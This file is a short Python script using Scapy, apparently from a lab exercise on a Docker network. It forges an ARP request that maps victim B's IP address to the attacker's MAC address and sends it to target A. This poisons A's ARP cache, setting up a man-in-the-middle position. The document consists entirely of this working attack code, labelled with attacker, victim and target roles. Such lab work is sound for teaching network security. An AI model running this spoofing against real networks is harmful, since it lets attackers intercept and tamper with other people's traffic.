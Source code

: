 # lebron

#!/usr/bin/env python3
from scapy.all import *

# Define Ethernet frame
eth_frame = Ether(dst="02:42:0a:09:00:05")

# Define ARP packet
arp_request = ARP(
    op=1,
    psrc="10.9.0.6",               # Victim B's IP address
    hwsrc="02:42:0a:09:00:69",     # Attacker's MAC address
    pdst="10.9.0.5",               # Target A's IP address
    hwdst="02:42:0a:09:00:05"      # Target A's MAC address
)

# Combine the Ethernet frame with the ARP packet
packet = eth_frame / arp_request

# Send the packet on a specific network interface
sendp(packet, iface="br-33d7cd2e3f46")
